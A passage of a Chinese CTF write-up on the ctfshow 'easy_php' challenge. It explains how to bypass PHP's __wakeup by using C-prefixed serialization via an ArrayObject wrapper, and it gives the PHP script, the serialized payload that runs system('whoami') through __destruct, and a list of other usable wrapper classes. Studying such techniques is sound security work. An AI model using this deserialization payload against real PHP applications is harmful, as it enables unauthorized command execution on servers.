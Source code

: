 ```
#O:7:"ctfshow":0:{}
```

我们把O改成C传入C:7:”ctfshow”:0:{}可以看到网页显示bypass

![](https://fushuling-1309926051.cos.ap-shanghai.myqcloud.com/2023/04/1-6.png)

但你只能这么传入，稍微改一点就没反应了，更别说向里面传值了，这里我们可以使用ArrayObject对正常的反序列化进行一次包装，让最后输出的payload以C开头(官方文档说：This class allows objects to work as arrays.)

```
<?php

class ctfshow {
    public $ctfshow;

    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        echo "OK";
        system($this->ctfshow);
    }
     

}
$a=new ctfshow;
$a->ctfshow="whoami";
$arr=array("evil"=>$a);
$oa=new ArrayObject($arr);
$res=serialize($oa);
echo $res;
//unserialize($res)
?>
#C:11:"ArrayObject":77:{x:i:0;a:1:{s:4:"evil";O:7:"ctfshow":1:{s:7:"ctfshow";s:6:"whoami";}};m:a:0:{}}
```

最后成功命令执行

![](https://fushuling-1309926051.cos.ap-shanghai.myqcloud.com/2023/04/1-7-1024x565.png)

但我本地尝试的时候发现这种包装方法对php版本有要求，我用7.3.4才可以输出以C开头的payload，换7.4或者8.0输出的就是O开头了，除了这个函数还有其他方法可以对payload进行包装，具体可以参考[愚人杯3rd [easy_php]](https://www.yuque.com/boogipop/tdotcs/hobe2yqmb3kgy1l8?singleDoc#)：

> 实现了unserialize接口的大概率是C打头，经过所有测试发现可以用的类为：
> 
> - ArrayObject::unserialize
> - ArrayIterator::unserialize
> - RecursiveArrayIterator::unserialize
> - SplObjectStorage::unserialize